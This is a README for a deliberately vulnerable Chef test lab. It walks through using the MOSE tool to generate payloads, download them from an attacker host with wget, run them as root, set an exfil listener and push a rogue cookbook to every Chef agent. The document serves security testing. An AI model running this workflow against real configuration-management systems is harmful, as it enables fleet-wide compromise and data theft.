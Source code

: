 
# chef-test-lab
Used to create a test lab that can be used to work with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment; it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)
* [Docker](https://docs.docker.com/install/)
* [Docker Compose](https://docs.docker.com/compose/install/)
* [Python 3](https://www.python.org/downloads/release/python-374/)

## Vagrant Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
cd vagrant && make build && make run
```

### To run MOSE against the vagrant chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	7a. Escalate to root with ```sudo su``` <br>
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

### To run MOSE against the vagrant chef server:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10` <br>
	2a. The exfil listener time can be set with the `-ep` parameter <br>
	2b. The `-rhost` parameter is a necessity if running against a chef-server.  
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	9a. Escalate to root with ```sudo su``` <br>
	9b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

## Docker Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls a single agent, run the following command:
```
cd docker/basic && make run
```

### To run MOSE against the docker chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Wait for 15 minutes or so for the environment to start working. You can track the progress with this command: `while true; do sleep 2; docker logs basic-chef-workstation; done`. You will know it's done when you see this:
```
id:       mysql_pw
password: TheM0stS3cr3T!!!
user:     mysql
```
3. Generate a payload with MOSE: `./mose -c "touch /tmp/test.txt && echo test >> /tmp/test.txt" -t chef -f "${PWD}/payloads/chef-linux"` and be sure to answer `Y` when prompted.
4. Transfer the payload to the chef workstation container: `docker cp payloads/chef-linux basic-chef-workstation:/chef-linux` 
5. Run the payload: `docker exec -i basic-chef-workstation /bin/bash -c "echo 'n' | /chef-linux"`
6. Wait for 30 minutes or exec into the agent and kick off the payload manually: `docker exec -i basic-chef-agent-1 /bin/bash -c "chef-client"`
7. Observe that a file has been created on the agent in `/tmp`: `docker exec -i basic-chef-agent-1 /bin/bash -c "cat /tmp/test.txt"`

**Please note:**
The docker lab does not support transferring payloads to the target via the web server. You can however generate a payload with the `-f` parameter and transfer it via `docker cp`. 

To tear down the test environment, run the following command:
```
make destroy
```

## Credits
The chef server docker container is provided courtesy of this repo: https://github.com/c-buisson/chef-server
